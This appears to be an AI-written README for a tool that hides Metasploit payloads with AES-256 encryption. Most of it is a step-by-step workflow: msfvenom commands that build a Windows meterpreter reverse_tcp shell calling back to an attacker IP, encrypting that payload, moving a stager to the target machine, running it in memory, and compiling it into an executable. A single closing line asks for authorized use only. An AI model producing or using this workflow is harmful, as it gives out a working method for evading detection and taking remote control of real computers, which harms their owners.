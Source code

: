 Here’s an example of a `README.md` file for your GitHub repository that explains the usage of the AES-256 payload obfuscation tool. This file provides clear instructions for setting up, encrypting payloads, and using the stager.

---

# AES-256 Payload Obfuscation Tool

This tool is designed to obfuscate Metasploit payloads using AES-256 encryption. It includes a Python script to encrypt the payload and a stager script to decrypt and execute the payload in memory.

## Features
- Encrypts raw payloads using AES-256-CBC.
- Generates a stager script to decrypt and execute the payload in memory.
- Supports custom encryption keys.
- Works with Windows payloads (x86/x64).

## Prerequisites
- Python 3.x
- `pycryptodome` library (for AES encryption/decryption)
- Metasploit Framework (for generating payloads)

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/aes-payload-obfuscation.git
   cd aes-payload-obfuscation
   ```

2. Install the required Python library:
   ```bash
   pip install pycryptodome
   ```

## Usage

### Step 1: Generate a Payload with Metasploit
Use `msfvenom` to generate a raw payload. For example:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f raw -o payload.bin
```

### Step 2: Encrypt the Payload
Use the `encrypt_payload.py` script to encrypt the payload:
```bash
python encrypt_payload.py -i payload.bin -o encrypted.bin
```
- `-i`: Input payload file (e.g., `payload.bin`).
- `-o`: Output encrypted file (e.g., `encrypted.bin`).
- `-k`: (Optional) Specify a 32-byte encryption key in hex format. If not provided, a random key will be generated.

Example with a custom key:
```bash
python encrypt_payload.py -i payload.bin -o encrypted.bin -k 0123456789abcdef0123456789abcdef0123456789abcdef0123456789abcdef
```

### Step 3: Use the Stager
The `encrypt_payload.py` script generates a `stager.py` file. This script decrypts and executes the payload in memory.

1. Transfer the following files to the target machine:
   - `encrypted.bin` (encrypted payload)
   - `stager.py` (loader script)

2. Run the stager on the target machine:
   ```bash
   python stager.py
   ```

### Optional: Compile the Stager
To make the stager more portable, you can compile it into an executable using `PyInstaller`:
```bash
pip install pyinstaller
pyinstaller --onefile stager.py
```
The compiled executable will be located in the `dist` folder.

## Example Workflow
1. Generate a payload:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.bin
   ```

2. Encrypt the payload:
   ```bash
   python encrypt_payload.py -i payload.bin -o encrypted.bin
   ```

3. Transfer `encrypted.bin` and `stager.py` to the target machine.

4. Execute the stager:
   ```bash
   python stager.py
   ```

## Notes
- The stager uses Windows API calls and is only compatible with Windows systems.
- Ensure the payload architecture (x86/x64) matches the target system.
- Use this tool only in authorized environments for legitimate purposes.



